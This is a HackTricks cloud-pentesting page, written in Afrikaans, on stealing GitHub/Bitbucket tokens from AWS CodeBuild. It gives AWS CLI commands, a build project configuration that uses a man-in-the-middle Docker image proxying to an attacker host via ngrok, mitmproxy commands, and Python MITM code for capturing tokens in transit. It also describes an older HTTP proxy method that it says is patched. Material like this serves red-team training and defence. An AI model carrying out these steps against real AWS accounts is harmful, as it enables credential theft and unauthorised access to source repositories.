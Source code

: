 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Herwin Github/Bitbucket Geconfigureerde Tokens

Eerstens, kyk of daar enige bron geloofsbriewe geconfigureer is wat jy kan lek:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

As jy vind dat outentisering na byvoorbeeld Github in die rekening gestel is, kan jy **exfiltrate** daardie **toegang** (**GH token of OAuth token**) deur Codebuild te laat **gebruik 'n spesifieke docker image** om die bou van die projek te loop.

Vir hierdie doel kan jy **'n nuwe Codebuild projek skep** of die **omgewing** van 'n bestaande een verander om die **Docker image** in te stel.

Die Docker image wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker image wat die **env veranderlikes `https_proxy`**, **`http_proxy`** en **`SSL_CERT_FILE`** sal stel. Dit sal jou toelaat om die meeste van die verkeer van die gasheer wat in **`https_proxy`** en **`http_proxy`** aangedui is, te onderskep en die SSL CERT wat in **`SSL_CERT_FILE`** aangedui is, te vertrou.

1. **Skep & Laai jou eie Docker MitM image op**
* Volg die instruksies van die repo om jou proxy IP adres in te stel en jou SSL sertifikaat in te stel en **bou die docker image**.
* **MOENIE `http_proxy` INSTEL NIE** om nie versoeke na die metadata eindpunt te onderskep nie.
* Jy kan **`ngrok`** gebruik soos `ngrok tcp 4444` om die proxy na jou gasheer in te stel.
* Sodra jy die Docker image gebou het, **laai dit op na 'n publieke repo** (Dockerhub, ECR...)
2. **Stel die omgewing in**
* Skep 'n **nuwe Codebuild projek** of **wysig** die omgewing van 'n bestaande een.
* Stel die projek in om die **voorheen gegenereerde Docker image** te gebruik.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Stel die MitM proxy in jou gasheer in**

* Soos aangedui in die **Github repo** kan jy iets soos gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, dit is gerapporteer dat dit met weergawe 10 dalk nie sal werk nie.
{% endhint %}

4. **Voer die bou uit & vang die geloofsbriewe**

*   Jy kan die token in die **Authorization** koptekst sien:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Dit kan ook vanaf die aws cli gedoen word met iets soos

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Deur HTTP-protokol~~

{% hint style="success" %}
**Hierdie kwesbaarheid is op 'n stadium in die week van die 20ste Februarie 2023 deur AWS reggestel (ek dink op Vrydag). So 'n aanvaller kan dit nie meer misbruik nie :)**
{% endhint %}

'n Aanvaller met **verhoogde regte in 'n CodeBuild kan die Github/Bitbucket token** lek wat gekonfigureer is of as regte via OAuth gekonfigureer is, die **tydelike OAuth token wat gebruik word om toegang tot die kode te verkry**.

* 'n Aanvaller kan die omgewing veranderlikes **http\_proxy** en **https\_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Dan, verander die URL van die github repo om HTTP in plaas van HTTPS te gebruik, byvoorbeeld: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Dan, voer die basiese voorbeeld van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) uit op die poort wat deur die proxy veranderlikes (http\_proxy en https\_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nou sal 'n aanvaller in staat wees om die token vanaf sy masjien te gebruik, al die voorregte wat dit het op te lys en (mis)bruik makliker as om die CodeBuild-diens direk te gebruik.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

